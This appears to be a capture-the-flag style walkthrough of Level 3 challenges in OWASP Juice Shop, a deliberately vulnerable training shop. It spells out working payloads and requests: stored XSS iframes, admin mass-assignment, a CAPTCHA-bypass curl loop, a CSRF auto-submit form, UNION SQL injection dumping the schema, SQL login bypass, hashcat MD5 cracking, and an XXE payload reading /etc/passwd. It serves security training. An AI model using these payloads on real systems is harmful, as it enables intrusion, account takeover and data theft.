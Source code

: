 # Level 3

## API-only XSS (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> without using the frontend application at all._

Following the [Product Tampering](#product-tampering-broken-access-control) challenge, we know we can modify the product
description:
```
PUT /api/Products/1
Content-type: application/json

{"description":"Hello <iframe src=\"javascript:alert(`xss`)\">"}
```

## Admin Registration (Improper Input Validation)
_Register as a user with administrator privileges._

Modify the body of the user registration request (`POST /api/Users/`) by adding `"role":"admin",`:
```
{
  "email": "admin@mail",
  "role": "admin",
  "password": "admin1",
  "passwordRepeat": "admin1",
  "securityQuestion": {
    "id": 1,
    "question": "Your eldest siblings middle name?",
    "createdAt": "2020-08-13T14:12:54.775Z",
    "updatedAt": "2020-08-13T14:12:54.775Z"
  },
  "securityAnswer": "Whatever"
}
```

## Bjoern's Favorite Pet (Broken Authentication)
_Reset the password of Bjoern's OWASP account via the Forgot Password mechanism with the original answer to his security question._

Bjoern's OWASP account email is `bjoern@owasp.org` (looking into Administration).

Google for `bjoern kimminich cat name`.
One of the sources is this YouTube video https://www.youtube.com/watch?v=Lu0-kDdtVf4 (4:20).

The pet's name is `Zaya`

## CAPTCHA Bypass (Broken Anti Automation)
_Submit 10 or more customer feedbacks within 10 seconds._

CAPTCHA is broken. The computation result is bound to `captchaId`.
We can simply bypass it by sending the same id, and the same result over and over again. 

Bash script to send the request 10 times:
```
for i in {1..10}
do
    curl -i -X POST \
        -H 'Content-Type: application/json' \
        --data '{"captchaId":6,"captcha":"14","comment":"AAA (anonymous)","rating":3}' \
        https://vernjan-juice-shop12.herokuapp.com/api/Feedbacks/
done
```

## CSRF (Broken Access Control)
_Change the name of a user by performing Cross-Site Request Forgery from [another origin](http://htmledit.squarefree.com/)._

This **no longer works in modern web browsers**.

The idea is to craft an HTML page similar to this:
```
<form action="YOUR_URL/profile" method="POST">
  <input type="text" id="username" name="username" value="John">
  <input type="submit" value="Submit">
</form> 
<script>document.forms[0].submit();</script>
```

Finally, send a link to this page to a victim. Once the victim visits the link, the form is auto-submitted
by the JavaScript and the victim's name is changed.

If you want to just solve the challenge without installing an old version of a browser,
you can intercept the request for a username change (`POST /profile`)
and add header `Origin: http://htmledit.squarefree.com`.

## Client-side XSS Protection (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> bypassing a client-side security mechanism._

The hardest part is to find which field is vulnerable to XSS. For this challenge, you can exclude all fields which
- are not client-side validated,
- and their value is not persisted and shown on some other page.

The vulnerable field is `email` in User registration.

To solve the challenge, tamper with the request and change the email
into ```Hello <iframe src="javascript:alert(`xss`)">```.

## Database Schema (Injection)
_Exfiltrate the entire DB schema definition via SQL Injection._

We already know there's a SQLi vulnerability in the _Login_. Unfortunately, it does not print the returned
data on the screen.

We have 2 options now:
- Do [blind SQL injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)
  (using for example [sqlmap](http://sqlmap.org/)) targeting _Login_. It's going to be quite slow.
- Find another SQLi entry which prints data back on the screen.

Searching for `rest/` through the main JS file `main-es2015.js` reveals entry point `/rest/products/search?q=`.
It looks perfect because it returns multiple results and prints them back on the screen.

### Step 1: Is it vulnerable to SQLi?
Let's start with a normal query:
```
GET /rest/products/search?q=Apple

{
  "status": "success",
  "data": [
    {
      "id": 1,
      "name": "Apple Juice (1000ml)",
      "description": "The all-time classic.",
      "price": 1.99,
      "deluxePrice": 0.99,
      "image": "apple_juice.jpg",
      "createdAt": "2020-08-20 06:11:49.815 +00:00",
      "updatedAt": "2020-08-20 06:11:49.815 +00:00",
      "deletedAt": null
    },
    {
      "id": 24,
      "name": "Apple Pomace",
      "description": "Finest pressings of apples. Allergy disclaimer: Might contain traces of worms. Can be <a href=\"/#recycle\">sent back to us</a> for recycling.",
      "price": 0.89,
      "deluxePrice": 0.89,
      "image": "apple_pressings.jpg",
      "createdAt": "2020-08-20 06:11:49.819 +00:00",
      "updatedAt": "2020-08-20 06:11:49.819 +00:00",
      "deletedAt": null
    }
  ]
}

Response code: 200 (OK); Time: 490ms; Content length: 631 bytes
```

Ok, all good. Now let's try this:
```
GET /rest/products/search?q=Apple'
..
<body>
<div id="wrapper">
    <h1>OWASP Juice Shop (Express ^4.17.1)</h1>
    <h2><em>500</em> SequelizeDatabaseError: SQLITE_ERROR: near &quot;&#39;%&#39;&quot;: syntax error</h2>
    <ul id="stacktrace">
        <li> &nbsp; &nbsp;at Query.formatError (/app/node_modules/sequelize/lib/dialects/sqlite/query.js:422:16)</li>
        <li> &nbsp; &nbsp;at Query._handleQueryResponse
            (/app/node_modules/sequelize/lib/dialects/sqlite/query.js:73:18)
        </li>
        <li> &nbsp; &nbsp;at afterExecute (/app/node_modules/sequelize/lib/dialects/sqlite/query.js:250:31)</li>
        <li> &nbsp; &nbsp;at replacement (/app/node_modules/sqlite3/lib/trace.js:19:31)</li>
        <li> &nbsp; &nbsp;at Statement.errBack (/app/node_modules/sqlite3/lib/sqlite3.js:14:21)</li>
    </ul>
</div>
</body>
</html>

Response code: 500 (Internal Server Error); Time: 333ms; Content length: 1534 bytes
```

Whoops, `SQLITE_ERROR: near "'%'": syntax error`.
There we have our SQLi vulnerability and, on top of that,
we know it's [SQLite](https://www.sqlite.org/index.html) database.

### Step 2: Inject custom query
I had a bit hard time injecting a custom query. Simply commenting out the rest of the original query doesn't work:
```
GET /rest/products/search?q=Apple'--

SequelizeDatabaseError: SQLITE_ERROR: incomplete input
```

The query is incomplete. After a bit of googling I figured out I'm missing closing parentheses:
```
GET /rest/products/search?q=Apple'))--

{
  "status": "success",
  "data": []
}

Response code: 200 (OK); Time: 243ms; Content length: 30 bytes
```

Cool, now we are ready for injection.

### Step 3: Get the number of columns
The next step is to determine the number of columns in the original "Products" table so that we can use `UNION SELECT`
to fetch data from another table.

```
GET /rest/products/search?q=Apple'))+UNION+SELECT+null--

SequelizeDatabaseError: SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns
```

Ok, that's good, we just need to find the correct number of columns.
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+null,null--
GET /rest/products/search?q=Apple'))+UNION+SELECT+null,null,null--
..
GET /rest/products/search?q=Apple'))+UNION+SELECT+null,null,null,null,null,null,null,null,null--
TypeError: Cannot read property "locale" of null
```

So it's 9 columns. This new error is coming from the application (not database). We can fix it easily
like this:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+'a','b','c',null,null,null,null,null,null--

{
  "status": "success",
  "data": [
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": null,
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    }
  ]
}

Response code: 200 (OK); Time: 301ms; Content length: 165 bytes
```

### Step 4: Where does SQLite store DB schema?
A bit of googling tell us it's `sqlite_master` table.
See [Injecting SQLite database based application](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf).

The most interesting column is `sql`.

### Step 5: Exfiltrate the DB schema
Time to put together the final payload:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+'a','b','c',sql,null,null,null,null,null+FROM+sqlite_master--

{
  "status": "success",
  "data": [
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": null,
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    },
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": "CREATE TABLE `Addresses` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `fullName` VARCHAR(255), `mobileNum` INTEGER, `zipCode` VARCHAR(255), `streetAddress` VARCHAR(255), `city` VARCHAR(255), `state` VARCHAR(255), `country` VARCHAR(255), `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `UserId` INTEGER REFERENCES `Users` (`id`) ON DELETE SET NULL ON UPDATE CASCADE)",
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    },
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": "CREATE TABLE `BasketItems` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `quantity` INTEGER, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `BasketId` INTEGER REFERENCES `Baskets` (`id`) ON DELETE CASCADE ON UPDATE CASCADE, `ProductId` INTEGER REFERENCES `Products` (`id`) ON DELETE CASCADE ON UPDATE CASCADE, UNIQUE (`BasketId`, `ProductId`))",
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    },
    ..
```

Finally, I extracted the queries into [db-schema.sql](misc/db-schema.sql).
```
cat dump.json | jq .data[].price | tail -n +2 | tr -d '"' > db-dump.sql
```
It will surely come handy later.

## Deluxe Fraud (Improper Input Validation)
_Obtain a Deluxe Membership without paying for it._

Log in as a standard customer (not admin) and pay for the Deluxe membership (in top left menu).

This is the important request:
```
POST YOUR_URL/rest/deluxe-membership
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9. ..
Content-Type: application/json

{"paymentMode":"card"}
```

The trick is to use a payment method you _don't really have_. For example, create a new user
(do not add any payment cards) and replay this exact request (just update the `Authorization` header).

## Forged Feedback (Broken Access Control) 
_Post some feedback in another users name._

Log in and post a feedback. Then modify `userId` in the request body and resend it.
```
POST /api/Feedbacks/
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9
Content-Type: application/json

{"status":"success","data":{"id":19,"UserId":2,"comment":"AAAAAAA (***in@juice-sh.op)","rating":3,"updatedAt":"2020-08-20T14:08:30.102Z","createdAt":"2020-08-20T14:08:30.102Z"}}
```

## Forged Review (Broken Access Control) 
_Post a product review as another user or edit any user's existing review._

Log in and post a review. Then modify `author` in the request body and resend it.

```
PUT /rest/products/1/reviews
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9
Content-Type: application/json

{"message":"Not Jim's review","author":"jim@juice-sh.op"}
```

## Login Amy (Sensitive Data Exposure)
_Log in with Amy's original user credentials. (This could take 93.83 billion trillion trillion centuries to brute force, but luckily she did not read the "One Important Final Note")_

Googling for `"One Important Final Note"` points to https://www.grc.com/haystack.htm?1. An interesting technique for making
memorable passwords. 

Read the "One Important Final Note" to understand the core of this challenge. We can assume that Amy's password is short
and padded with `....` to 24 characters (based on the _93.83 billion trillion trillion centuries_ cracking time).

First step is to get Amy's password hash. The same process as in
[Password Strength](level2.md#password-strength-broken-authentication) challenge.

The hash is: `030f05e45e30710c3ad3c32f00de0473`

I used [hashcat](https://hashcat.net/hashcat/) for cracking the password:
```
echo 030f05e45e30710c3ad3c32f00de0473 > hashes.txt
$ hashcat -a 3 -d 3 -m 0 hashes.txt -1 '?l?u?d' '?1?1?1.....................'
..
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 030f05e45e30710c3ad3c32f00de0473
Time.Started.....: Tue Sep  1 16:57:58 2020 (1 min, 11 secs)
Time.Estimated...: Tue Sep  1 16:59:09 2020 (0 secs)
Guess.Mask.......: ?1?1?1..................... [24]
Guess.Charset....: -1 ?l?u?d, -2 Undefined, -3 Undefined, -4 Undefined
Guess.Queue......: 1/1 (100.00%)
Speed.#3.........:     1541 H/s (0.20ms) @ Accel:256 Loops:32 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 108672/238328 (45.60%)
Rejected.........: 0/108672 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#3...: Salt:0 Amplifier:108640-108672 Iteration:0-32
Candidates.#3....: g0h..................... -> K1f.....................
```

- `-a 3` is for brute-force attack
- `-d 3` is for running on my dedicated graphics card
- `-m 0` is for MD5
- `-1 '?l?u?d'` is a custom charset with lower and uppers case letters and digits (see https://hashcat.net/wiki/doku.php?id=mask_attack for details)
- `'?1?1?1.....................'` is a password mask

Once _hashcat_ is done, read the password:
```
$ hashcat hashes.txt --show
030f05e45e30710c3ad3c32f00de0473:K1f.....................
```

Amy's password is `K1f.....................`

## Login Bender (Injection)
_Log in with Bender's user account._

The same as [Login Jim](#login-jim-injection) challenge.

## Login Jim (Injection)
_Log in with Jim's user account._

We need two things: email and password

Email is easy. Once you have the admin access, you can see it in _Administration_. It's `jim@juice-sh.op`.

To bypass the password check, we can use a simple SQL injection:
`jim@juice-sh.op';` or `jim@juice-sh.op'--`

## Manipulate Basket (Broken Access Control)
_Put an additional product into another user's shopping basket._

I found an alternative solution for this challenge which is, however, not recognized as the correct one. 
I created Juice shop bug [#1452](https://github.com/bkimminich/juice-shop/issues/1452).

### 1) Create new basket item
```
POST /api/BasketItems/
Content-type: application/json

{"quantity":3,"ProductId":19}
---
{"status":"success","data":{"id":21,"ProductId":19,"quantity":3,"updatedAt":"2020-08-26T22:22:36.821Z","createdAt":"2020-08-26T22:22:36.821Z"}}
```

The trick here is to delete the `basketId` property! New basket item is created with `null` basketId.
Just to confirm it:
```
GET /api/BasketItems/21
---
{"status":"success","data":{"id":21,"quantity":3,"createdAt":"2020-08-26T22:22:36.821Z","updatedAt":"2020-08-26T22:22:36.821Z","BasketId":null,"ProductId":19}}
```

### 2) Add basket item to basket
Now we can put the basket item into another user's basket (this wouldn't possible if the basket item
had already been in someone's basket):
```
PUT /api/BasketItems/21
Content-type: application/json

{"BasketId":"8"}
---
{"status":"success","data":{"id":21,"quantity":3,"createdAt":"2020-08-26T22:22:36.821Z","updatedAt":"2020-08-26T22:23:45.932Z","BasketId":"8","ProductId":19}}
```

## Payback Time (Improper Input Validation)
_Place an order that makes you rich._

Add some products to your basket and then change the quantity. The following request is sent:
```
PUT /api/BasketItems/9
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.
Content-Type: application/json

{"quantity":5}
```

Change the quantity to a negative number and finish the order.

## Privacy Policy Inspection (Security through Obscurity)
_Prove that you actually read our privacy policy._

While reading the privacy policy, you can notice that some words get highlighted on the mouse hover:
![](images/privacy-policy-hot.png)

Inspect the highlighted word with DevTools and notice that it has CSS class `hot`.
Search for all `hot` classes to get the following words:
```
https://vernjan-juice-shop.herokuapp.com
We may also
instruct you
to refuse all
reasonably necessary
responsibility
```

I had now idea I should turn those words into a link but once I googled for them,
Google spoilt the solution in the search results previews.

Go to https://vernjan-juice-shop.herokuapp.com/We/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility

The response is also weird but maybe it will come to use later?
```
404 Error: ENOENT: no such file or directory, stat '/app/frontend/dist/frontend/assets/private/thank-you.jpg'
```

## Product Tampering (Broken Access Control)
_Change the href of the link within the OWASP SSL Advanced Forensic Tool (O-Saft) product description into https://owasp.slack.com._

We know there's `/api/Products` endpoint. Looking into `/main-es2015.js` or just simply guessing we can discover it also
accepts `PUT` requests.

Let's use it to modify the existing product (id is `9`). Do not forget to add `Content-Type: application/json` header!

```
PUT /api/Products/9
Content-type: application/json

{"description":"O-Saft is an easy to use tool to show information about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations. <a href=\"https://owasp.slack.com\" target=\"_blank\">More...</a>"}
```

## Reset Jim's Password (Broken Authentication)
_Reset Jim's password via the Forgot Password mechanism with the original answer to his security question._

Given the answer is a common name, it can be easily guessed. I downloaded a list of 200 most common names.
See [names.txt](misc/names.txt).

To automate the guessing process, I used [OWASP Zap Fuzzer](https://www.zaproxy.org/docs/desktop/addons/fuzzer/).

The sibling's name is `Samuel`. 

## Upload Size (Improper Input Validation)
_Upload a file larger than 100 kB._

The file size is validated with JavaScript. We can easily bypass using curl:
```
BEARER='eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9. ..'
curl -v -i -X POST -H "Authorization: Bearer $BEARER" -F 'file=@150kb.txt' https://vernjan-juice-shop.herokuapp.com/file-upload
```

Just make sure the file is not larger than `200 kB` (this is server-side validated).

## Upload Type (Improper Input Validation)
_Upload a file that has no .pdf or .zip extension._

The same as [Upload Size](#upload-size-improper-input-validation) challenge.

## XXE Data Access (XXE)
_Retrieve the content of `C:\Windows\system.ini` or `/etc/passwd` from the server._

Start with [](level2.md#deprecated-interface-security-misconfiguration) challenge.

Upload the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<hello>&xxe;</hello>
```

The response is:
```
410 Error: B2B customer complaints via file upload have been deprecated for security reasons: <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/bin/shbin:x:2:2:bin:/bin:/bin/shsys:x:3:3:sys:/dev:/bin/shsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/bin/shman:x:6:12:man:/var/cache/man:/bin/shlp:x:7:7:lp:/var/spool/lpd:/bin/shmail:x:8:8:mail:/v... (xxe.xml)
```
